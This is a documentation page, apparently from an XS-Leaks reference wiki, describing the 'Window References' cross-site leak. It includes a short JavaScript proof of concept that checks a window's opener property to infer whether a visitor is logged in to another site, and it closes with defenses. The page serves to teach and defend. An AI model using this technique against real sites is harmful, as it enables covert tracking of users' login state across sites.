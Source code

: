 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its `opener` property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) protection depending on the users' state, it becomes possible to infer cross-site information about that state. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply by checking its window reference. [Run demo](https://xsinator.com/testing.html#COOP%20Leak)

## Code Snippet
The below snippet demonstrates how to detect whether the `opener` property was set to `null`, or whether the [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) header is present with a value other than `unsafe-none`. This can be done with both iframes and new windows.

```javascript
// define the vulnerable URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window){
    // open the url in a new tab to see if win.opener was affected by COOP
    // or set to null
    win = open(url);
  }else{
    // create an iframe to detect whether the opener is defined
    // won't work for COOP detection, or if a page has implemented framing protections
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // redirect the iframe to the vulnerable URL
    win = open(url, "xsleaks");
  }
  
  // wait 2 seconds to let the page load
  setTimeout(() => {
    // check the opener property of the newly opened window
    if(!win.opener) console.log("win.opener is null");
    else console.log("win.opener is defined");
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);

```

## Defense

To mitigate this type of XS-Leak, be consistent across different pages: set the `opener` property to the same value on all pages using COOP. Using JavaScript to set `opener` to `null` can result in edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.
